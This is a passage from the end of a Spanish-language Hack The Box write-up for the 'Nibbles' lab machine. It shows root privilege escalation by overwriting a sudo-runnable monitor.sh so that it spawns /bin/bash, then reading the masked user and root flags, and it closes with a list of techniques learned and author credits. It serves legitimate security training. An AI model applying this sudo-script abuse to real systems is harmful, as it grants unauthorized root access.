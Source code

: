 <br>

4 - En este momento con modificar el script para spawnear una shell y llamar el script como root ya habríamos escalado privilegios, modificamos el script:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat ./monitor.sh 
#!/bin/bash

/bin/bash
```

<br>

5 - Ejecutamos con permisos de `root`:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

¡Somos root!

## FLAGS

<h3>User.txt</h3>

```bash
root@Nibbles:/home/nibbler# cat user.txt 
5f75xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h3>Root.txt</h3>

```bash
root@Nibbles:/# cat /root/root.txt 
17acxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Nibbles</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos con `nmap`.

- Fuzzing web en busca de archivos con `wfuzz`.

- Explotacion de la vulnerabilidad `Arbitrary File Upload`.

- Escalada de privilegios a través de `sudo`.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra (Void4m0n) <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>. Si queréis contactarme por cualquier motivo lo podéis hacer a través 
de <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.

Autor de la máquina:  <em>mrb3n</em>, muchas gracias por la creación de Nibbles aportando a la comunidad. <a href="https://app.hackthebox.com/users/2984" target="_blank">HTB</a>.
